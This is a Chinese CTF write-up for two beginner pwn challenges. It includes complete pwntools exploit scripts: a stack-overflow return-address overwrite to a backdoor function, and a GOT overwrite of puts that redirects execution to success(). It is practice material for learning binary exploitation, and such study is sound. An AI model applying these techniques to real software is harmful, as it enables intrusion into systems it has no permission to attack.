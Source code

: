 ## 群里两道题

### Ez_pwn

64位，动态链接，NX打开

![image-20220325185924533](C:/Users/%E8%94%A1%E9%9B%A8%E5%AE%B9/AppData/Roaming/Typora/typora-user-images/image-20220325185924533.png)

可以很开找到栈溢出漏洞

![image-20220325185957729](C:/Users/%E8%94%A1%E9%9B%A8%E5%AE%B9/AppData/Roaming/Typora/typora-user-images/image-20220325185957729.png)

后门函数也可以找到，所以直接覆盖返回地址就可以了

![image-20220325190030261](C:/Users/%E8%94%A1%E9%9B%A8%E5%AE%B9/AppData/Roaming/Typora/typora-user-images/image-20220325190030261.png)

代码如下

```
from pwn import *
context(os='linux', arch='amd64', log_level='debug')
io=process("./Ez_pwn")

junk = b'A'*0x48
backdoor_addr = 0x400741

payload = junk + p64(backdoor_addr)
io.sendlineafter(b'string!',payload)

io.interactive()
```

本地可以打通

![image-20220325190226533](C:/Users/%E8%94%A1%E9%9B%A8%E5%AE%B9/AppData/Roaming/Typora/typora-user-images/image-20220325190226533.png)

### EZPWN

64位，动态链接，Canary打开

![image-20220325190241796](C:/Users/%E8%94%A1%E9%9B%A8%E5%AE%B9/AppData/Roaming/Typora/typora-user-images/image-20220325190241796.png)

main函数中，框里的这几行代码可以修改栈中的一段地址，而且正好时8个字节

![image-20220325190338305](C:/Users/%E8%94%A1%E9%9B%A8%E5%AE%B9/AppData/Roaming/Typora/typora-user-images/image-20220325190338305.png)

可以找到后门函数，栈可执行也打开了，所以将puts()或者printf()的地址改为success()函数的地址即可(我这里用的puts()函数)

![image-20220325190538169](C:/Users/%E8%94%A1%E9%9B%A8%E5%AE%B9/AppData/Roaming/Typora/typora-user-images/image-20220325190538169.png)

代码如下

```python
from pwn import *
io = process("./EZPWN")
elf = ELF('./EZPWN')
context.log_level='debug'

payload1 = b'A'*4
io.sendlineafter('ID?\n',payload1)

payload2 = str(elf.got['puts'])  #用printf函数亦可
io.sendlineafter('address?',payload2)

payload3 = p64(0x400796)         #success的地址
io.sendlineafter('data: ',payload3)
```